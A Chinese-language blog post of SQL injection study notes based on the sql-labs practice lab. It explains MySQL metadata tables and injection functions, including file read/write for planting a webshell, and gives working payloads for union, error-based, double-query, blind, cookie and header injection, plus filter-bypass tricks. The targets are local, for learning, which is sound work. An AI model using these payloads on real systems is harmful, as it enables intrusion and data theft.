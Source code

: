 ```yaml
---
layout: post
title: 不太全的sql注入笔记
date: 2020-10-06
tags: ["web"]
---
```


[toc]
以sql-labs为例。

## 注入基础

### 数据库相关

在mysql中，数据库information_schema存放的是数据库的所有信息。
其中：
- 表schemata存放的是数据库名的信息。
- 表tables存放的是数据库的库名和数据库的表名的映射。
- 表columns存放的是数据库的库名和数据库的表名以及表的行名的映射。

### 函数

<table>
<thead>
<tr>
  <th>函数名</th>
  <th>作用</th>
</tr>
</thead>
<tbody>
<tr>
  <td>group_concat()</td>
  <td>查询时，将查询的该项内容的全部内容连接在一起查询。</td>
</tr>
<tr>
  <td>concat_ws()</td>
  <td>至少三个参数，第一个参数为连接符，只有三个参数时，将第二三个参数通过第一个参数连接起来。</td>
</tr>
<tr>
  <td>concat()</td>
  <td>将两个参数连接起来</td>
</tr>
<tr>
  <td>order by</td>
  <td>按照第几列排序，假如不存在就会报错，常用于判断有几列</td>
</tr>
<tr>
  <td>extractvalue()</td>
  <td>两个参数，第一个参数为名称，第二个参数为xpath字符串，常将第二个参数写为sql语句来进行报错注入</td>
</tr>
<tr>
  <td>updatexml()</td>
  <td>三个参数，第一个参数为名称，第二个参数为xpath字符串，第三个参数为替换内容，常将第二个参数写为sql语句来进行报错注入</td>
</tr>
<tr>
  <td>mid()</td>
  <td>三个参数，第一个为字符串，第二个参数为开始位置，第三个参数为长度，可选，若不填写则返回剩余字符串。sql注入时常用于查询过长而分段查询</td>
</tr>
<tr>
  <td>substr()</td>
  <td>截取字符串，三个参数，第一个参数是字符串，第二个参数是起始位置，第三个参数是截取长度，需要注意的是mysql是从1开始的</td>
</tr>
<tr>
  <td>if()</td>
  <td>三个参数，第一个参数为表达式，若为真则执行第二个参数，若为假则执行第三个参数</td>
</tr>
<tr>
  <td>load_file()</td>
  <td>用于提取文件，参数为路径，返回文件的内容。找到注入点后即可在网站中读取文件。</td>
</tr>
<tr>
  <td>select...into outfile ()</td>
  <td>参数为物理路径，找到注入点后可以向服务器的该路径中写入文件，比如一句话木马等等。</td>
</tr>
<tr>
  <td>left()</td>
  <td>两个参数，第一个为字符串，第二个为截取的长度，从开头开始截取。</td>
</tr>
</tbody>
</table>

### url解码

<table>
<thead>
<tr>
  <th>编码后</th>
  <th>编码前</th>
</tr>
</thead>
<tbody>
<tr>
  <td>%23</td>
  <td>#</td>
</tr>
<tr>
  <td>%20</td>
  <td>空格</td>
</tr>
</tbody>
</table>

## 字符型注入

使用单引号'来进行分割
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_fdd3dbf49fdc12edc907fa2a8e8d900e.jpg)](wp_editor_md_fdd3dbf49fdc12edc907fa2a8e8d900e.jpg)

    http://127.0.0.1/Less-1/?id=1' and 0 union select 1,group_concat(schema_name),2 from information_schema.schemata %23

## 整型注入

没有单引号进行分割
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_14ac808d4f1041151dbae47a7b877521.jpg)](wp_editor_md_14ac808d4f1041151dbae47a7b877521.jpg)

    http://127.0.0.1/Less-2/?id=1 and 0 union select 1,group_concat(schema_name),3 from information_schema.schemata %23

## post注入

观察输入框
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_b3a9cd37e44bfa711143112b60d4ce76.jpg)](wp_editor_md_b3a9cd37e44bfa711143112b60d4ce76.jpg)
使用post方法
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_480a64a39c574a60395caf85ca6114be.jpg)](wp_editor_md_480a64a39c574a60395caf85ca6114be.jpg)

    uname=1' union select 1,group_concat(schema_name) from information_schema.schemata %23 && passwd=1

## 报错注入

利用函数的报错来进行查询注入。
此处分别用extractvalue()和updatexml()：
extractvalue():
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_8ac02504b3de8951648e03b6abee70c7.jpg)](wp_editor_md_8ac02504b3de8951648e03b6abee70c7.jpg)

    http://127.0.0.1/Less-5/?id=1' and 0 union select 1,2,extractvalue(1,(select mid(group_concat(schema_name),10) from information_schema.schemata))  %23

updatexml():
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_802d8127621854e92525279aecdb99ff.jpg)](wp_editor_md_802d8127621854e92525279aecdb99ff.jpg)

    http://127.0.0.1/Less-5/?id=1' and 0 union select 1,2, updatexml(1,(select mid(group_concat(schema_name),20) from information_schema.schemata),1)  %23

## 双注入

利用函数自身的bug来进行注入。
原理：在此处执行的时候，rand()会被执行两次，因此提示主键错误。原理较为复杂，可网上查询。
双注入即有两个select,**其中第一个select必须保证查询的数据库真的存在**，第二个select是我们需要查询的。
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_590350c3ba45cd4033e43c2a0372eee2.jpg)](wp_editor_md_590350c3ba45cd4033e43c2a0372eee2.jpg)

    http://127.0.0.1/Less-5/?id=1' union select 1,count(*),3 from information_schema.tables group by concat(floor(rand()*2),(select database())) %23

## 盲注

场景：没有任何报错提示。
盲注常见的有时间盲注，布尔盲注等等。
对于布尔盲注，需要有提示让我们知晓查询是否正确。
如图所示：
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_e263afbd1226bcf0fed98e301d811aed.jpg)](wp_editor_md_e263afbd1226bcf0fed98e301d811aed.jpg)
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_bf97a9597aa10dd11e8a54a35db78d9e.jpg)](wp_editor_md_bf97a9597aa10dd11e8a54a35db78d9e.jpg)
对于没有任何报错提示的注入，则考虑使用时间盲注。

### 布尔盲注

判断是否正确来进行盲注。
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_0d18497290fd5f56c4ec11a5a4873e70.jpg)](wp_editor_md_0d18497290fd5f56c4ec11a5a4873e70.jpg)
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_f2c8576aae19e933bff379502fea7050.jpg)](wp_editor_md_f2c8576aae19e933bff379502fea7050.jpg)
可以使用burp来进行爆破，也可以自行编写脚本。

### 时间盲注

通过修改if中的第一个参数的表达式，观察是否执行了sleep()来进行盲注。
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_5f8d9e3295afedc3194efb979ac4a665.jpg)](wp_editor_md_5f8d9e3295afedc3194efb979ac4a665.jpg)

## 其他注入位置

### cookie注入

比如sql-labs的第20题哈。
先登录成功，刷新的时候用burp抓包，再用repeater来进行更改包的内容，如图：
[![](http://ltfa1l.top/wp-content/uploads/2020/10/wp_editor_md_cd1b1dcdf7f18f1c305cd24958dae65f.jpg)](wp_editor_md_cd1b1dcdf7f18f1c305cd24958dae65f.jpg)

### header注入

奇怪的注入位置，比如referer,user-agent等等，方法同上类似，此处就不贴实例了。

## 绕过姿势

<table>
<thead>
<tr>
  <th>过滤字符</th>
  <th>可能的应对措施</th>
</tr>
</thead>
<tbody>
<tr>
  <td>注释符（%23，#）</td>
  <td>用and or构造闭合引号，报错注入</td>
</tr>
<tr>
  <td>and or</td>
  <td>换成&&,&#124;&#124;，aandnd等</td>
</tr>
<tr>
  <td>空格</td>
  <td>尝试%09 %0a %0c %0d %0b %a0 /**/</td>
</tr>
</tbody>
</table>